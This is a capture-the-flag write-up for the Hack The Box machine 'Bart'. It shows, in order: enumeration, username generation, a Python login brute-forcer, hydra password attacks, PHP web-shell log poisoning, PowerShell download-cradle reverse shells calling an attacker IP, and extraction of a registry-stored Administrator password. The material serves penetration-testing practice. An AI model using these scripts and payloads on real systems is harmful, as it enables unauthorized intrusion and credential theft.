# Bart
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.81 -T4                            
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-03 16:59 BST
Nmap scan report for 10.10.10.81 (10.10.10.81)
Host is up (0.091s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```
```
└─$ nmap -Pn -p80 -sC -sV 10.10.10.81 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-03 17:04 BST
Nmap scan report for 10.10.10.81 (10.10.10.81)
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
- `vhosts`
```
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://bart.htb/' -H 'Host: FUZZ.bart.htb' -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://bart.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.bart.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

[Status: 200, Size: 35529, Words: 2090, Lines: 549, Duration: 148ms]
    * FUZZ: forum

[Status: 200, Size: 3423, Words: 385, Lines: 81, Duration: 1330ms]
    * FUZZ: monitor
```
- `gobuster`
  - `forum.bart.htb` had not results
```
└─$ gobuster dir -u http://monitor.bart.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt --no-error --exclude-length 75
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://monitor.bart.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          75
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/09/03 20:56:29 Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 301) [Size: 152] [--> http://monitor.bart.htb/docs/]
/index.php            (Status: 200) [Size: 3423]
/static               (Status: 301) [Size: 154] [--> http://monitor.bart.htb/static/]
/src                  (Status: 301) [Size: 151] [--> http://monitor.bart.htb/src/]
/Index.php            (Status: 200) [Size: 3423]
/install.php          (Status: 200) [Size: 3714]
/vendor               (Status: 301) [Size: 154] [--> http://monitor.bart.htb/vendor/]
/config.php           (Status: 200) [Size: 0]
/Docs                 (Status: 301) [Size: 152] [--> http://monitor.bart.htb/Docs/]
/cron                 (Status: 301) [Size: 152] [--> http://monitor.bart.htb/cron/]
/INSTALL.php          (Status: 200) [Size: 3714]
/INDEX.php            (Status: 200) [Size: 3423]
```

- `forum.bart.htb`


- `monitor.bart.htb`



## Foothold/User
- We found the employees
  - One of them is commented


- We have `http://monitor.bart.htb/?action=forgot`




- Maybe we should brute-force the `monitor.bart.htb`
  - Since we have an `error` message indicating that the user doesn't exist


- Let's generate username list and password list
  - We can try validate usernames by using http://monitor.bart.htb/?action=forgot
  - For usernames, we can use [username-anarchy](https://github.com/urbanadventurer/username-anarchy)
```
Samantha Brown
Daniel Simmons
Robert Hilton
Harvey Potter
Jane Doe
```
```
└─$ ./username-anarchy --input-file username.list 
samantha
samanthabrown
samantha.brown
samabrow
samanthab
s.brown
sbrown
bsamantha
b.samantha
browns
brown
brown.s
brown.samantha
sb
daniel
danielsimmons
daniel.simmons
danielsi
danisimm
daniels
d.simmons
dsimmons
sdaniel
s.daniel
simmonsd
simmons
simmons.d
simmons.daniel
ds
robert
roberthilton
robert.hilton
roberthi
robehilt
roberth
r.hilton
rhilton
hrobert
h.robert
hiltonr
hilton
hilton.r
hilton.robert
rh
harvey
harveypotter
harvey.potter
harveypo
harvpott
harveyp
h.potter
hpotter
pharvey
p.harvey
potterh
potter
potter.h
potter.harvey
hp
jane
janedoe
jane.doe
janed
j.doe
jdoe
djane
d.jane
doej
doe
doe.j
doe.jane
jd
```
- For passwords we use [CeWL](https://github.com/digininja/CeWL)

```
└─$ cewl -w passwords.list -e -a http://forum.bart.htb
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```
```
└─$ cat passwords.list 
and
our
ipsum
BART
info
sit
amet
eget
nulla
the
team
for
...
Theme
aThemes
Adapted
modified
colophon
page
Just
simple
post

Email addresses found
---------------------
Mailinfo@bart.htb
```

- We can write our own script or use `Burp Intruder` for finding usernames
  - Send request to `Burp Intruder`
  - Set attack type to `Sniper`
    - Add `user_name` to payloads
  - Add the list we generated to payload list
  - Start the attack
  - We found 2 users: `daniel` and `harvey`






- Now let's try bruteforcing the password
  - I combined usernames list and passwords list
  - `henry:potter`

```
import re
import sys
import requests
import itertools
from multiprocessing import Pool

MAX_PROC = 50

#<input type="hidden" name="csrf" value="aab59572a210c4ee1f19ab55555a5d829e78b8efdbecd4b2f68bd485d82f0a57" />
csrf_pattern = re.compile('name="csrf" value="(\w+)" /')

def check_passwd(username, password):
	
    # CSRF and PHPSESSID
    r = requests.get(url)
    csrf = re.search(csrf_pattern, r.text).group(1)
    PHPSESSID = [x.split('=')[1] for x in r.headers['Set-Cookie'].split(';') if x.split('=')[0] == 'PHPSESSID'][0]

    data = {"csrf": csrf, "user_name": username, "user_password": password, "action": "login"}
    headers = {'Cookie': f"PHPSESSID={PHPSESSID}"}
    
    r = requests.post(url, data=data, headers=headers)
	
    if '<p>The information is incorrect.</p>' in r.text:
        return username, password, False
    else:
        return username, password, True


def attack(usernames, wordlist, nprocs=MAX_PROC):
    with open(wordlist, 'r') as f:
       passwords = f.read().rstrip().replace('\r','').split('\n')

    pool = Pool(processes=nprocs)

    for username, password, status in pool.starmap(check_passwd, list(itertools.product(usernames,passwords))):
        if status:
            sys.stdout.write(f"\n[+] Found password => {username}:{password} \n")
            pool.terminate()
            sys.exit(0)

    print("\n\nPassword not found\n")


if __name__ == '__main__':
    
    url = "http://monitor.bart.htb/"
    usernames = ["daniel", "harvey"]
    wordlist = sys.argv[1]

    attack(usernames, wordlist)
```


- Now since we found a password
  - We can login to http://monitor.bart.htb
  - New domain: `internal-01.bart.htb`





- `internal-01.bart.htb`
  - Previous creds don't work



- `gobuster`
```
└─$ gobuster dir -u http://internal-01.bart.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php --no-error --exclude-length 75        
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://internal-01.bart.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          75
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/09/04 12:19:37 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 302) [Size: 4] [--> simple_chat/login_form.php]
/log                  (Status: 301) [Size: 155] [--> http://internal-01.bart.htb/log/]
/Index.php            (Status: 302) [Size: 4] [--> simple_chat/login_form.php]
/sql                  (Status: 301) [Size: 155] [--> http://internal-01.bart.htb/sql/]
/INDEX.php            (Status: 302) [Size: 4] [--> simple_chat/login_form.php]
/SQL                  (Status: 301) [Size: 155] [--> http://internal-01.bart.htb/SQL/]
/Log                  (Status: 301) [Size: 155] [--> http://internal-01.bart.htb/Log/]
```
```
└─$ gobuster dir -u http://internal-01.bart.htb/simple_chat/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php --no-error --exclude-length 75
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://internal-01.bart.htb/simple_chat/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          75
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/09/04 12:18:36 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 302) [Size: 0] [--> ../]
/login.php            (Status: 302) [Size: 0] [--> login_form.php]
/register.php         (Status: 302) [Size: 0] [--> register_form.php]
/media                (Status: 301) [Size: 169] [--> http://internal-01.bart.htb/simple_chat/media/]
/chat.php             (Status: 302) [Size: 4] [--> simple_chat/login_form.php]
/css                  (Status: 301) [Size: 167] [--> http://internal-01.bart.htb/simple_chat/css/]
/includes             (Status: 301) [Size: 172] [--> http://internal-01.bart.htb/simple_chat/includes/]
/Index.php            (Status: 302) [Size: 0] [--> ../]
/Login.php            (Status: 302) [Size: 0] [--> login_form.php]
/js                   (Status: 301) [Size: 166] [--> http://internal-01.bart.htb/simple_chat/js/]
/logout.php           (Status: 302) [Size: 0] [--> ../]
```

- Let's launch `hydra`
  - https://github.com/gnebbia/hydra_notes
  - To send `hydra` to `Burp` we can `HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra -l harvey -P /usr/share/wordlists/rockyou.txt internal-01.bart.htb http-post-form "/simple_chat/login.php:uname=^USER^&passwd=^PASS^&submit=Login:Password"`
  - `harvey:Password1`
```
└─$ hydra -l harvey -P /usr/share/wordlists/rockyou.txt internal-01.bart.htb http-post-form "/simple_chat/login.php:uname=^USER^&passwd=^PASS^&submit=Login:Password"               
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-04 12:40:05
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://internal-01.bart.htb:80/simple_chat/login.php:uname=^USER^&passwd=^PASS^&submit=Login:Password
[STATUS] 716.00 tries/min, 716 tries in 00:01h, 14343683 to do in 333:54h, 16 active
[STATUS] 695.00 tries/min, 2085 tries in 00:03h, 14342314 to do in 343:57h, 16 active
[80][http-post-form] host: internal-01.bart.htb   login: harvey   password: Password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-04 12:45:17

```

- So apparently we could've register our user
  - Since there is a source-code available in https://github.com/magkopian/php-ajax-simple-chat
- Now we have access to `chat`


- Let's check the source
  - We have call to `http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey`
  - Possible `lfi`


- So after playing around, each time someone visits `log.php` we have a new record in http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey
  - We need to visit `http://internal-01.bart.htb/log/log.php?filename=log.php&username=harvey`


- We can try `log poisoning`
  - We can change our `User-Agent` to `<?php system($_REQUEST['cmd']); ?>` when visiting http://internal-01.bart.htb/log/log.php?filename=log.php&username=harvey
  - Then we add new parameter and check the response where we get our `rce`




- Let's get reverse shell
  - `...&cmd=powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5/shell.ps1')`


## Root
- So before starting enumeration, we have upgrade our shell to `64`-bit one
  - Apparently there are some registries that specific for `32` and `64` bit versions
  - We can download `nc64.exe` and run it to get `64`-bit version shell




- So the reason is that the privesc creds are in `registry`
  - To be specific in `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon`
  - If we run `powerup` or do it manually, both ways doesn't show the creds
    - For privesc we usually go through each check in https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation
  - And the reason is that `32`-bit and `64`-bit have different versions of `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon`
  - You can clearly see it from the pictures
  - Lesson learned: we need enumerate from both `32` and `64` bit processes




- Okay, now since we have creds
  - `administrator:3130438f31186fbaf962f407711faddb`
  - I tried using `Invoke-Runas.ps1` but couldn't manage to make it work
  - So I used `Invoke-Command` way

```
PS C:\inetpub\wwwroot\internal-01\log> $username = "BART\Administrator"
PS C:\inetpub\wwwroot\internal-01\log> $password = "3130438f31186fbaf962f407711faddb"
PS C:\inetpub\wwwroot\internal-01\log> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS C:\inetpub\wwwroot\internal-01\log> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5/shell.ps1') } -Credential $credential -Computer localhost
```


